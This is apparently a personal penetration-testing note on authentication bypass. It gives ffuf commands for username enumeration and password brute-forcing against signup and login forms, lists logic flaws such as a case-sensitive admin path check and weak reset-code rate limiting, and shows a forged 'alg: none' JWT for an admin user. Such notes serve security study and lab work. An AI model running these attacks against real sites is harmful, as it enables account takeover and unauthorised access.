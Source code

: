 
# Username Enumeration
creating a list of valid usernames
a lot of websites return a Error message / HTTP Status which indicates that the username / email exists. e.g.:
- wrong password in login (and for other random (non existing) usernames there is another error message)
- username / emal already exists in registration

for emails you should use [Social Enigineering](../Social%20Enigineering.md) or [OSINT](OSINT.md)

for usernames:
Adjust Http method and fieldnames and error message and so on
`-mr` is the text on the page we are looking for to validate we've found a valid username. (match regular expression)
![](attachments/Pasted%20image%2020230602000640.png)
you can also specify specific http status codes with `-mc` 
```
ffuf -w WORDLIST -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u URL/customers/signup -mr "username already exists"
```


# Brute force

## BURP Intruder
[Intruder](Burp%20Suite.md#Intruder)

## FFUZ
create a file with valid usernames / emails from [Username Enumeration](Authetication%20Bypass.md#Username%20Enumeration) e.g. `valid_usernames.txt`

`W1` = list of valid usernames
`W2` = list of possible passwords
`-fc` = check for an HTTP status code other than 200
```
ffuf -w valid_usernames.txt:W1,:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u URL/customers/login -fc 200
```


# Logic Flaws
search for logic flaws in website

## Page validation
- PHP Backend validates if the user role of a user visiting an admin page only if the URL starts with `/admin`, but makes it case sensetive and you can change the request to a different case like `/adMin` 
```php
if( url.substr(0,6) === '/admin') {
    # Code to check user is an admin
} else {
    # View Page
}
```
- API password reset takes a username of the account and email to send the confimation link separately and does not check if they belong together or so on..

## Security Question
- When the security question can be easily guessed "What is you favourite color"

## Brute Force Protection
- reset password sends a 6 digit code
- brute force protection is just checking if the IP has XXX tries
- but the attacker can just switch the device

## re-register with existing username
- re-register with existing username
- trick with a trailing space " admin@URL", but the app will provide the JWT for the "admin@URL" account at login with " admin@URL"


# JWT Bypass
- we can decode all 3 parts of the JWT
- change alg in header to `none`
- change user (or other data) in payload
- encode base64
- concatenate Header and Payload with `.` -> HEADER.PAYLOAD. -> but WITHOUT signature e.g.: `eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0=.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNjg2NzExODU0fQ==.`